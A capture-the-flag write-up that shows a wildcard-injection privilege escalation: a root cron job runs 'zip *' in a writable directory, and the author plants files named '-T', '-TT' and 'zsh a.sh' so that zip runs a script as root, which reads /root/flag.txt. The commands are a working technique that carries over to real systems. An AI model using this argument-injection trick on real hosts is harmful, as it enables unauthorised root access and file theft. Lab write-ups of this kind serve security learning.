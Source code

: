 ## Neural Network 5
Now in the previous challenge when we looked at the cronjobs you might have noticed another cronjob named `backup`.

```bash
dalle@21f1622aa404:~$ ls /etc/cron.d
backup  e2scrub_all  train
dalle@21f1622aa404:~$ cat /etc/cron.d/backup 
SHELL=/bin/bash

* * * * * root (cp /root/personal/* /tmp/backup && cd /tmp/backup && zip --symlinks backup.zip * && mv backup.zip ..; rm /tmp/backup/*)
# Don't remove the empty line at the end of this file. It is required to run the cron job
```

Now, it is not immediately obvious what has to be done. But if you are familiar with wildcard injection you might understand how we can exploit this.

You can see that root is running `zip --symlinks backup.zip *` within the `/tmp/backup` which we have write access to. Having a star wildcard in the command 
within a publically writable directory can be quite dangerous as we can name files as argument flags and the files will be interpreted as arguments to the
command instead of files.

This attack path is well documented and we can look into [gtfobins](https://gtfobins.github.io/gtfobins/zip/) in hopes of a documented way of exploiting `zip`.
We do find an exploit to get a shell and that is using the `-T -TT` flags.

So we will go ahead and create those files within `/tmp/backup` with our exploit and wait to get the flag.

```bash
dalle@21f1622aa404:~$ cd /tmp
dalle@21f1622aa404:/tmp$ echo "cat /root/flag.txt > /tmp/flag.txt" > backup/a.sh
dalle@21f1622aa404:/tmp$ cd backup
dalle@21f1622aa404:/tmp/backup$ touch -- -T -TT "zsh a.sh"
dalle@21f1622aa404:/tmp/backup$ cat ../flag.txt
gg{r007_f0r_7h3_und3rd0g}
```

